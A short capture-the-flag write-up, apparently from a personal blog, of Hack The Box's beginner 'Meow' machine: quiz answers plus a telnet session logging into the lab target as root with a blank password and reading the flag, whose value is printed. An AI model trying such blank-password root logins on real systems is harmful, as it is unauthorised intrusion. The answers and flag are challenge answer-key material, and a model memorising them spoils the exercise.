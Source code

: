 ```yaml
---
title: Meow
date: 2025-04-2 12:00:00 +0200
author: pablo
categories: [writeup, hackthebox]
tags: [hackthebox, meow]     
image:
    path: https://www.hackthebox.com/images/landingv3/mega-menu-logo-htb.svg
    alt: Hack The Box
---
```

Este primer reto de Hack The Box es una especie de examen de conocimientos básicos para comenzar en Hack The Box, 
consiste en una serie de preguntas y tareas a completar. Conectarse a la VPN que proporcionan y responder a las preguntas, 
para acabar realizando una captura de bandera simple. 

To attack the target machine, you must be on the same network.
Connect to the Starting Point VPN using one of the following options.

It may take a minute for HTB to recognize your connection.
If you don't see an update after 2-3 minutes, refresh the page.
Connect to Pwnbox

Connect using Pwnbox

RECOMMENDED

A preconfigured, browser-based virtual machine with all the hacking tools you need pre-installed.
Free 2h of Pwnbox - Upgrade to VIP+ for Unlimited Access
Connect to OVPN

Connect using OpenVPN

Use your own machine for hacking. Download your VPN configuration and connect from your own environment.
Having Trouble? - Introduction to Lab Access

Spawn Machine

Spawn the target machine and the IP will show here

Task 1

What does the acronym VM stand for?

>virtual machine

Task 2

What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell.

>terminal

Task 3

What service do we use to form our VPN connection into HTB labs?

>openvpn

Task 4

What tool do we use to test our connection to the target with an ICMP echo request?

>ping 

Task 5

What is the name of the most common tool for finding open ports on a target?

>nmap

Task 6

What service do we identify on port 23/tcp during our scans?

>telnet

Task 7

What username is able to log into the target over telnet with a blank password?

>root

Submit Flag

``` shell
pablo☠office meow$ telnet 10.129.76.225 
Trying 10.129.76.225...
Connected to 10.129.76.225.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root

root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt 
b40abdfe23665f766f9c61ecba8a4c19
```

Submit root flag 
Una manera muy elegante de asegurarte de que los usuarios tengan un mínimo de nivel y conocimiento para iniciarte en tu plataforma. 

[https://www.hackthebox.com/achievement/machine/2336390/394](https://www.hackthebox.com/achievement/machine/2336390/394)